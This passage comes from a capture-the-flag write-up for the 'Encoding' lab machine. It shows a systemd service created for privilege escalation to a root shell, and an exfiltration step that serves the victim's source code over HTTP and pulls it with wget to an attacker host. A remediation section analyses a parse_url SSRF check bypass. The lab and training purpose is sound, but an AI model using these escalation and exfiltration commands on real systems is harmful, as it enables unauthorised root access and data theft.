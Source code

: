 ```shell

# create a malicious service
#--nano /etc/systemd/system/attack.service--#
[Unit]
Description=Privilege Escalation

[Service] 
ExecStart=/tmp/attack
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
#--/etc/systemd/system/attack.service--#

# re execute the command to escalate your privilege
sudo /usr/bin/systemctl restart attack
/bin/bash -p
cat /root/root.txt    # capture root flag
```

#### Exfiltration
There have been lots of exfiltration already, I however will collect the source code of in one piece.
```shell
python3 -m http.server 8005    # start a server on victim's machine
wget -R "index.html*" -c -r -L -p -nc -nH -P source  http://10.10.11.198:8005/   # download the source code on attacker's machine
codium source
```
#### Remediation
**Fixing the Foothold Vector**  
The inbuilt `parse_url` function in the code's `get_url_content` function which appears in all `utils.php` of the html, api, and image folders bypassed a check supposedly meant to deter an attack from manipulating the server.  However the notorious `include` in the `action_handler.php` of the image's action folder facilitated the foothold on this box. 
![Encoding's Host File](/images/encoding/encoding02.png "Encoding's Host File")
Let's validate our assumptions with a proof of concept. [parse_url](https://www.php.net/manual/en/function.parse-url) strips the scheme while [gethostbyname](https://www.php.net/manual/en/function.gethostbyname) does a nslookup on the given domain. However, passing the url to the `parse_url` function without the http scheme returns nothing which has nothing to compare against "127.0.0.1" and hence the false output value.
```php
php -a
// first run
php > echo (parse_url("http://image.haxtables.htb", PHP_URL_HOST)); // returns image.haxtables.htb
php > echo (gethostbyname("image.haxtables.htb")); // returns 127.0.0.1
php > $domain = parse_url("http://image.haxtables.htb", PHP_URL_HOST); echo (gethostbyname($domain) === "127.0.0.1") ? "true" : "false"; // returns true

// second run
php > echo (parse_url("image.haxtables.htb", PHP_URL_HOST)); // empty
php > echo (gethostbyname("")); // empty
php > $domain = parse_url("image.haxtables.htb", PHP_URL_HOST); echo (gethostbyname($domain) === "127.0.0.1") ? "true" : "false";  // returns false

// curl
php > $ch = curl_init();
php > curl_setopt($ch, CURLOPT_URL, "http://image.haxtables.htb"); echo (curl_exec($ch)); // returns contents of coming_soon.html in the image/includes folder
php > curl_setopt($ch, CURLOPT_URL, "image.haxtables.htb"); echo (curl_exec($ch)); // still returns contents of coming_soon.html in the image/includes folder
php > exit
```